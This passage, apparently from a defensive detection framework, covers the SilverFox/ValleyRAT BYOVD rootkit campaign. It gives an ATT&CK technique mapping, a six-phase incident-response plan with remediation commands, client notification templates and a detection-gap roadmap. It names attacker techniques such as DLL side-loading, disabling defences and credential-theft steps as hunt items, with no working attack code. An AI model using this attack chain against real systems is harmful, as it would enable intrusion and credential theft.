┌────────────────────────┬──────────────────────────────────────┬──────────────┬────────────────┐
│  TACTIC                │  TECHNIQUE                           │  ID          │  COMPOSITE     │
├────────────────────────┼──────────────────────────────────────┼──────────────┼────────────────┤
│  Initial Access        │  Phishing / Drive-by                 │  T1566/T1189 │  Out of scope  │
│  Execution             │  User Execution: Malicious File      │  T1204.002   │  C1 Stager     │
│                        │  Command & Scripting Interpreter     │  T1059       │  C1 Stager     │
│  Persistence           │  Create/Modify Windows Service       │  T1543.003   │  C3 / C4       │
│                        │  Boot/Logon Autostart                │  T1547       │  C3            │
│  Privilege Escalation  │  Exploitation for Priv Esc           │  T1068       │  C4 Kernel     │
│                        │  Create/Modify Windows Service       │  T1543.003   │  C3 / C4       │
│  Defense Evasion       │  DLL Side-Loading                    │  T1574.002   │  C2 Sideload   │
│                        │  Obfuscated Files / Artifacts        │  T1027       │  C3 / C1       │
│                        │  Impair Defenses: Disable Tools      │  T1562.001   │  AMSI Pack     │
│                        │  Masquerading                        │  T1036       │  C1 / C3       │
│  Ingress Tool Transfer │  Ingress Tool Transfer               │  T1105       │  C1 Stager     │
│  Command & Control     │  Encrypted Channel                   │  T1573       │  C2J           │
│                        │  Application Layer Protocol          │  T1071       │  C2J           │
│  Collection            │  Screen Capture / Keylogging         │  T1056       │  Post-exploit  │
│  Exfiltration          │  Exfil Over C2 Channel               │  T1041       │  C2J           │
└────────────────────────┴──────────────────────────────────────┴──────────────┴────────────────┘
```

---

## Incident Response Lifecycle

### IR Phases for SilverFox/ValleyRAT BYOVD

```mermaid
graph TD
    A["Alert fires\nComposite C3 or C4"] --> B

    B["PHASE 1: IMMEDIATE TRIAGE\n< 15 minutes\nDo not alert the attacker"] --> B1

    B1["1. Identify which composite fired\n2. Read HunterDirective output\n3. Run Atomic Primitive Collector\n   for the affected DeviceId\n4. Determine stage of attack:\n   - C1 only: Staging, no execution yet\n   - C2 only: Sideload, driver not yet active\n   - C3: Service created, driver may load soon\n   - C4: CRITICAL — kernel load confirmed"]

    B --> C
    C["PHASE 2: CONTAINMENT\n< 30 minutes"] --> C1

    C1["If C4 (kernel load confirmed):\n→ IMMEDIATE network isolation\n   Do NOT try to remediate first\n→ EDR may be blind — assume it is\n→ Contact host owner silently\n→ Preserve memory before touching disk\n\nIf C3 (service created, no load):\n→ Disable the service immediately\n   sc.exe config <name> start=disabled\n→ Delete the driver file\n→ Monitor for reactivation attempts\n\nIf C1/C2 (staging only):\n→ Monitor silently for 30 minutes\n→ Let the chain develop to confirm\n→ Isolate if Stage 3 activity appears"]

    C --> D
    D["PHASE 3: EVIDENCE PRESERVATION\n< 1 hour"] --> D1

    D1["Memory acquisition (before any reboot):\n→ Full memory dump — volatility-compatible\n→ Hibernation file if memory dump fails\n\nDisk acquisition:\n→ Driver binary from writable path\n→ Signed loader binary\n→ Malicious DLL module\n→ Any staged artifacts in AppData/Temp\n\nLog preservation:\n→ MDE telemetry export for affected device ±48h\n→ Registry export: CurrentControlSet\\Services\n→ Event log export: System / Security / Application\n\nNetwork preservation:\n→ Full PCAP if available\n→ DNS query history for affected host\n→ NetFlow data for C2 identification"]

    D --> E
    E["PHASE 4: SCOPE ASSESSMENT\n< 2 hours"] --> E1

    E1["Fleet-wide hunt:\n→ Same driver filename / hash across estate\n→ Same loaded DLL / loader name across estate\n→ Same service ImagePath pattern across estate\n→ Same C2 destination IP / domain\n\nLateral movement check:\n→ Authentication events from affected host\n→ SMB / RDP / WinRM from affected host\n→ New admin accounts or password changes\n→ Scheduled tasks or services created remotely\n\nIdentity impact:\n→ Were credentials accessible on affected host?\n→ LSASS access events?\n→ Kerberoasting from affected host?\n→ DCSync-style replication requests?"]

    E --> F
    F["PHASE 5: ERADICATION\n< 4 hours"] --> F1

    F1["1. Remove malicious service:\n   sc.exe delete <service_name>\n\n2. Remove driver and artifacts:\n   Delete driver file from writable path\n   Delete loader and DLL\n   Verify registry key removed\n\n3. Validate EDR health:\n   Is WinDefend running?\n   Is Sense (MDE sensor) running?\n   Are minifilter drivers loaded correctly?\n   fltmc filters — verify expected filters present\n\n4. Restore EDR if blinded:\n   Reinstall MDE sensor if necessary\n   Force signature update\n   Full scan\n\n5. Validate no persistence remains:\n   Check all Run/RunOnce keys\n   Check TaskCache for suspicious tasks\n   Check Services for remaining malicious entries\n   Check startup folder"]

    F --> G
    G["PHASE 6: RECOVERY & LESSONS\n< 24 hours"] --> G1

    G1["Recovery:\n→ Validate host is clean before returning to production\n→ Password reset for all accounts that authenticated to host\n→ Review and revoke any tokens that may have been harvested\n\nLessons learned:\n→ Which composite caught it first?\n→ What was the dwell time between staging and detection?\n→ Did temporal separation defeat any rules?\n→ Were any cousin surfaces missed?\n→ Update cousin detection roadmap\n\nDocumentation:\n→ Full incident timeline from atomic layer\n→ IOCs for TI sharing\n→ Rule refinements based on observed evasion\n→ Update HunterDirectives with new pivot paths"]
```



### Client Communication Template (Post-Sales Context)

**Initial notification (within 30 minutes of C4 firing):**

```
"We have detected a critical indicator consistent with a kernel-level rootkit
deployment attempt on [HOSTNAME]. We have isolated the host from the network
as a precautionary measure. Our analysis indicates the attack was in progress
for approximately [X] hours before detection. We are preserving evidence and
conducting a full scope assessment. Please do not reboot the affected host.
We will provide a full briefing within 2 hours."
```

**Scope update (within 2 hours):**

```
"Our fleet-wide assessment has identified [N] additional hosts with staging
indicators consistent with the same threat actor. Of these, [N] have been
isolated. We have identified the following in your environment: [IOCs].
The threat actor appears to have achieved [credential access / no lateral
movement / lateral movement to X hosts]. We recommend [immediate action]."
```

---

## Detection Gaps & Research Roadmap

### Current Gaps

| Gap | Impact | Detection Difficulty | Roadmap |
|-----|--------|---------------------|---------|
| Fileless BYOVD (no driver staged to disk) | CRITICAL | Very High | ETW kernel callback monitoring |
| BYOVD via DMA attack | CRITICAL | Extreme | Hardware telemetry required |
| Rootkit hiding from DriverLoadEvent | HIGH | High | ETW-based kernel monitoring |
| ValleyRAT C2 protocol fingerprinting | HIGH | Medium | JA3 TLS fingerprint database |
| Loader variants (new signed binaries abused) | HIGH | Medium | Signed binary + writable path baseline |
| Credential access post-rootkit | MEDIUM | Medium | Post-exploitation monitoring pack |

### Research Priorities

```
P0 — Immediate:
  Baseline of signed binaries running from writable paths in tenant
  → Required to tune Composite 2 false positive rate

P1 — Next quarter:
  ValleyRAT C2 JA3 fingerprint identification
  → Enable C2 detection after Stage 7

P2 — Following quarter:
  ETW-based kernel callback monitoring
  → Detect rootkit activity that occurs after DriverLoadEvent

P3 — Research:
  Fileless BYOVD path (no driver on disk)
  → Currently out of standard MDE telemetry scope
```

---

> [!NOTE]
> These composites are architected for logical correctness and high-fidelity signal extraction.
> The full kill chain correlation requires `DriverLoadEvent` telemetry which must be enabled
> in your MDE configuration. Validate this is collected before deploying Composite 4.

> [!IMPORTANT]
> **Temporal deception awareness:** A patient APT operator will stage Stages 1–3 across
> multiple sessions separated by days. The 30-day atomic primitive index is NOT optional for
> this threat family — it is the only mechanism that connects Day 0 staging to Day 3
> activation. Ensure the atomic layer is running continuously on all monitored endpoints.

---

*Part of the Minimum Truth Detection Framework*  
*Author: Ala Dabat | [github.com/azdabat](https://github.com/azdabat)*  
*Licensed under [CC BY-NC-SA 4.0](https://creativecommons.org/licenses/by-nc-sa/4.0/legalcode)*
